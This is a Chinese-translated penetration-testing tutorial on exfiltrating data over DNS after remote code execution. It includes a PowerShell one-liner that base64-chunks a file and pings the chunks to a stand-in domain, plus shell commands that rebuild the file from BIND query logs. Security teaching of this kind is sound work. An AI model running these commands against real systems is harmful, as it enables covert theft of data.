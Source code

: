 # 通过远程代码执行在 DNS 上进行数据渗透

> 原文：<https://infosecwriteups.com/data-exfiltration-over-dns-with-remote-code-execution-22c2b228e373?source=collection_archive---------0----------------------->

![](img/e9346f8eec98bfc9386f28055b752ae3.png)

一段时间以前，我遇到了一个问题，我需要通过 DNS 来过滤数据，因为所有其他选项都被阻止了。关于这一点的一个重要注意事项是，你应该彻底阅读测试描述，以验证这是否是允许的，因为在某些情况下，这可能会给你带来麻烦。这绝不是一个理想的解决方案，在未来我计划实现我自己的 DNS 监听器，但是因为我已经运行了一个绑定 DNS 服务器，这就是我在这个时间点上是如何做的。

另一种泄漏数据的方法也是使用 dnscat2 这样的工具，但是您需要修改有效负载和通信模式，因为它在云环境中很容易被检测到。

Burp Collaborator 对于小数据也有很大帮助，但是如果你需要提取较大的文件，可能会有点麻烦。

[](https://github.com/iagox86/dnscat2) [## iagox86/dnscat2

### 注意:的密码。zip 下载都是“密码”！*****欢迎来到 dnscat2，这是一个不会…

github.com](https://github.com/iagox86/dnscat2) 

## 入门指南

要开始，您需要一些先决条件:

1.  像 testdomain.com 一样属于你的领域。你可以从像 GoDaddy 这样的网站上得到这个。
2.  一个带有公共 IP 地址的 Linux VPS(虚拟专用服务器)(你可以每月花大约 5 美元得到一个)来运行你的带有 BIND 的 DNS 名称服务器
3.  远程代码执行漏洞

## 设置

1.  将您的 DNS 名称服务器位置指向 GoDaddy 上的 VPS IP 地址
2.  安装并配置 BIND 以解析您的域

[](https://www.digitalocean.com/community/tutorials/how-to-configure-bind-as-a-private-network-dns-server-on-ubuntu-18-04) [## 如何在 Ubuntu 18.04 | DigitalOcean 上将 BIND 配置为私有网络 DNS 服务器

### 管理服务器配置和基础架构的一个重要部分包括维护一种简单的查找方式…

www.digitalocean.com](https://www.digitalocean.com/community/tutorials/how-to-configure-bind-as-a-private-network-dns-server-on-ubuntu-18-04) 

3.可选您可以将 DNS 查询日志保存到一个单独的文件中，以便于使用示例:/var/log/bind/queries.log

[](https://ixnfo.com/en/configuring-bind9-logs.html) [## 配置 Bind9 日志

### 默认情况下，Bind9 日志被写入系统日志/ var / log / syslog，为了将它们分开，我将执行…

ixnfo.com](https://ixnfo.com/en/configuring-bind9-logs.html) 

## 漏出

为了过滤数据，您需要将值分成 48 个块，然后 Base64 编码，并将每个值作为查询发送到您的域。

*   AAAA…A.yourdomain.com
*   BBBB…B.yourdomain.com

```
powershell -ex bypass -noprofile -c "[Convert]::ToBase64String([IO.File]::ReadAllBytes('.\index.html')) -split '(\w{48})' | foreach{$value = $_ + '.yourdomain.com'; ping -n 1 $value}"
```

## 读取数据

在接收端，你需要理解数据

使用这个命令，您可以从绑定查询中提取数据，并将其输入到文件中

```
cat /var/log/bind/queries.log | grep .yourdomain.com | cut -d " " -f5 | sed 's/(//' | sed 's/)//' | sed 's/://' | sed 's/\.yourdomain\.com//' > file
```

在读取 base64 块之后，您实际上需要将它们转换回正常的可读格式，并将它们组合成最终的文件

```
while IFS= read -r line; do echo "$line" | base64 --decode; done < file >> final_result
```

## 问题

像这样读取数据有时会非常棘手，因为一些数据块可能会丢失或混淆，所以要保持警惕。解决这个问题的一个方法是在每个块上实现一个索引。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)